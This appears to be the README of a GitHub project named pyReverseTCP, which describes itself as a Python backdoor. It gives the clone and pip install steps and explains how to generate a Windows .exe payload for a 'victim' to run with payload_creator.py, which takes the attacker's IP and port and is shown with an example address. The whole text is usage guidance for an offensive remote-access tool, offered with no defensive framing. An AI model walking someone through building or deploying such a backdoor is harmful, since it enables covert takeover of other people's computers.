 # pyReverseTCP
### A backdoor program made entirely in python
## Installation
> Cloning this repo
```
$ git clone https://github.com/Astrol99/pyReverseTCP.git
```
> Install required dependencies
Use pip with provided requirements.txt with all dependencies listed
```
$ cd pyReverseTCP
$ pip install -r requirements.txt
```
## Getting Started
### Making payload
In order to make a connection between you and the victim, the victim must run the payload. But to do that, you must first make a .exe program. A script called payload_creator.py has made this step autonomous, but needs two parameters, the attacker's IP and PORT
> Usage
```
python payload_creator.py <ATTACKER IP> <ATTACKER PORT>
```
> Example
```
python payload_creator.py 192.168.1.10 1234
```
